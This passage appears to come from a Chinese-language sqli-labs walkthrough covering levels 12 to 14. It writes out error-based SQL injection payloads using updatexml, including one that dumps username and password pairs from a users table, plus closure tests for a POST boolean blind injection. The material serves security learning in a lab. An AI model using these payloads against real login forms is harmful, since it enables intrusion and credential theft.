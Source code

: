注意这里没有全部显示出来，那么就用limit

```
uname=-admin") and updatexml(1,concat('^',(select column_name from information_schema.columns where table_name='users' limit 4,1),'^'),1)#&passwd=1&submit=Submi
```
因此，在这里发生了一点小插曲

![image](https://user-images.githubusercontent.com/76896357/114966500-40ddc400-9ea5-11eb-89c7-fadfd419038a.png)

* 查字段

```
uname=-admin") and updatexml(1,concat('^',(select group_concat(username,'~',password) from security.users),'^'),1)#&passwd=1&submit=Submi
```

这里仍然是查询不完整，再用上面的方法就好了

这一关也过了。。。


## 13. 单引号变形报错注入

* 代理抓包，送到repeater模块

* 看一下闭合方式
```
admin'//能看处什么方式闭合就行
```


* 根据报错，试一下报错注入
```
uname=admin') and updatexml(1,concat('^',(select database()),'^'),1)#&passwd=&submit=Submit
```
![image](https://user-images.githubusercontent.com/76896357/114978311-a5a41900-9ebb-11eb-9725-1f42c9b2b6e6.png)

注入成功

* 试一下能不能联合注入

![image](https://user-images.githubusercontent.com/76896357/114978625-0895b000-9ebc-11eb-87df-d60fee8e19b7.png)

很显然不能，那么，就直接用报错注入就好，和12题类似


## 14. POST型bool盲注

* 猜测闭合方式
```
admin" and 1=1 #
```
![image](https://user-images.githubusercontent.com/76896357/114979112-e3ee0800-9ebc-11eb-9b43-ecf0062f29a0.png)

从这里可以知道“为闭合方式

* 又因为无论输入什么都不会显示，那么只有延时注入，让他睡几秒
